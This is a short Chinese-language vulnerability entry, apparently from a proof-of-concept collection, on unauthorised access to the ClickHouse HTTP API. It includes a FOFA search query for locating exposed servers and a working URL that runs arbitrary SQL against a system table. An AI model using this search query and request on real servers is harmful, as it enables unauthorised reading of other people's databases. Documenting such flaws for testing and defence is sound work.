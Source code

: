 # ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

```
ClickHouse
```

## FOFA

```
"ClickHouse" && body="ok"
```

## 漏洞复现

登录页面

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091258079.png)

执行SQL语句

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091258245.png)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091258274.png)